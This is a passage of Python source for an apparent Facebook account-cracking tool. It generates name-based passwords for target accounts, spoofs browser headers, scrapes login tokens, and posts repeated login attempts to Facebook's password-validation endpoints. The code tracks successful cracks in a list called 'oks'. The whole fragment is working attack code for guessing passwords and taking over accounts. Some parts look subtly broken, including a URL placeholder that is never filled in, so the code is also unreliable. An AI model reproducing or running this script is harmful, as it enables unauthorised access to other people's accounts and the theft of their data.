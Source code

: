                         else:

                                continue

        except requests.exceptions.ConnectionError:

                time.sleep(20)

        loop+=1

def Booda2(ids,names,passlist):

        global loop,oks,cps

        sys.stdout.write('\r\r\033[1;32m [Booda-XD-\033[1;33mM2\033[1;32m] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()

        session = requests.Session()

        try:

                first = names.split(' ')[0]

                try:

                        last = names.split(' ')[1]

                except:

                        last = 'Khan'

                ps = first.lower()

                ps2 = last.lower()

                for fikr in passlist:

                        pas = fikr.replace('First',first).replace('Last',last).replace('first',ps).replace('last',ps2)

                        ua=random.choice(ugen)

                        head = {'Host': 'mbasic.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"', 'sec-ch-ua-mobile': '?1', 'sec-ch-ua-platform':'"Android"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': ua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}

                        getlog = session.get('https://p.facebook.com/login/device-based/password/?uid={ids}&flow=login_no_pin&refsrc=deprecated&_rdr')

                        idpass ={"lsd":re.search('name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":ids,"next":"https://m.facebook.com/login/save-device/","flow":"login_no_pin","pass":pas,}

                        complete = session.post('https://x.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False,headers=head)

                        Booda=session.cookies.get_dict().keys()
